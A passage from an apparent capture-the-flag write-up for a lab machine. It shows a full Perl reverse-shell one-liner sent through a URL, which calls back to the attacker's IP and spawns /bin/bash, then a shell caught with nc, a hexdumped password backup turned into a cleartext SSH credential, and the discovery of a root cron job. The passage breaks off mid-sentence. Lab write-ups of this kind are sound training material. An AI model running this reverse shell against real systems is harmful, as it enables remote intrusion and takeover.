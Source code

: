 ```
perl -e 'use Socket;$i="10.10.14.109";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/bash -i");};'
```

[URLencode](https://en.wikipedia.org/wiki/Percent-encoding) it to prevent complications since we are putting in the address bar.

Meanwhile at my `nc` listener, a reverse shell appears...


{% include image.html image_alt="255ebd1e.png" image_src="/6f0ded74-c9e8-4b28-b32d-18ee3f9e961d/255ebd1e.png" %}


## Privilege Escalation

During enumeration of `www-data`'s account, I notice an interesting file `password_backup` at `/home/floris`. The `user.txt` is here but only `floris` can read it.


{% include image.html image_alt="a6623416.png" image_src="/6f0ded74-c9e8-4b28-b32d-18ee3f9e961d/a6623416.png" %}


The file `password_backup` is a hexdump.


{% include image.html image_alt="f38ab22b.png" image_src="/6f0ded74-c9e8-4b28-b32d-18ee3f9e961d/f38ab22b.png" %}


Let's restore the hexdump back to its binary form and see what's next with `file`.


{% include image.html image_alt="4aae9715.png" image_src="/6f0ded74-c9e8-4b28-b32d-18ee3f9e961d/4aae9715.png" %}


Let's try the credential (`floris:5d<wdCbdZu)|hChXll`) with SSH.


{% include image.html image_alt="1fca6a37.png" image_src="/6f0ded74-c9e8-4b28-b32d-18ee3f9e961d/1fca6a37.png" %}


Perfect. Time to retrieve `user.txt`.


{% include image.html image_alt="31cbe022.png" image_src="/6f0ded74-c9e8-4b28-b32d-18ee3f9e961d/31cbe022.png" %}


Now, I notice something really strange going on in `/admin-area`.


{% include image.html image_alt="3a223cec.png" image_src="/6f0ded74-c9e8-4b28-b32d-18ee3f9e961d/3a223cec.png" %}


Two files are written here by `root` at every minute interval! If I have to guess, I would say that a `cron` job is ran by `root` every minute writing the files here.

The file `input` contains `curl`-like argument like this.

